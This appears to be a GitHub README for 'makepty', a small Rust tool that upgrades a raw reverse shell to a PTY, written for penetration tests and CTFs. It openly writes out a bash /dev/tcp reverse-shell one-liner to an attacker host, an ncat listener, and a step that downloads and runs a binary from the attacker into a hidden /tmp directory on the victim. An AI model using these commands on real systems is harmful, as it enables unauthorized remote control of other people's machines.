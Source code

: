 # makepty
Create a PTY linked to stdin and stdout


This tool creates a pseudo-TTY which takes input from standard input and prints to standard output.
I made it as another potential option for building a PTY on a raw (netcat) shell during a penetration test or CTF.
It is similar to `python3 -c 'import pty;pty.spawn("/bin/bash")'` but also works on platforms that lack Python.

I was inspired to create it after I took over a FreeBSD box and found that it didn't have python and my pyinstaller version only worked on Linux.

## Why

When taking over a target computer, pentesters will generally use a reverse shell with methods such as `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

This initial shell will have no PTY, thus allowing only non-interactive commands to be run.
A hacker generally needs to upgrade to a PTY to be able to easily run commands such as `sudo` or `vi` remotely.
`makepty` is a simple binary that will upgrade a raw shell to a TTY shell.

## Platforms

Tested: Linux, FreeBSD

Untested, but might work if you compile it: MacOS, Windows

## Usage

On attacker system, start a listener via for example: `ncat -lvp 9443`
On victim, get a reverse shell through for example `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

Now you will have a raw shell on your ncat listener. To upgrade, put makepty on the target system and run it. Example:
On attacker, make a directory and move makepty for target system to it, then run a web server:
```sh
mkdir /tmp/web
cp ~/tools/makepty-freebsd /tmp/web/
cd /tmp/web
python3 -m http.server 8082
```
On victim, download it and run it:
```sh
mkdir /tmp/.w
cd /tmp/.w
curl http://$hackerip:8082/makepty-freebsd > makepty # or `ftp http://$hackerip:8082/makepty-freebsd` as `ftp` on BSD is a non-interactive curl-like command
chmod +x makepty
./makepty bash # or any other shell install on the system. Defaults to `sh`
```

You will now have a PTY shell, as can be tested with `stty -a`.

To further improve your experience, set your own shell to raw mode so you can use interactive commands such as `vi`, and use ctrl+c, shell completion, etc. on the victim.

On attacker shell:
```sh
# First run ctrl+Z to background the reverse shell, then
stty size # get your TTY size, example 55 212 is rows 55, columns 212
stty raw -echo && fg # set your TTY to raw mode and then foreground the shell
# Now you're in the victim shell again
stty rows 55 columns 212 # send TTY size info to PTY on victim
# You can now run commands such as `vi` in fullscreen on your reverse shell
```

### usage example

[![asciicast](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj.svg)](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj)

## Building

This project uses the Rust nightly `strip` feature to reduce binary size. As such, you'll need Rust nightly to build it. Assuming you've got Rust installed, you'll have to install the nightly toolchain with:
```sh
rustup toolchain install nightly
rustup +nightly target add x86_64-unknown-linux-musl
```

Then build:
```sh
cargo +nightly build --target x86_64-unknown-linux-musl --release
```

Cross-compiling for FreeBSD uses https://github.com/wezm/freebsd-cross-build with edit mentioned in https://github.com/wezm/freebsd-cross-build/issues/3 to add the nightly toolchain.

## License

MIT license (see [LICENSE-MIT](LICENSE-MIT) file)
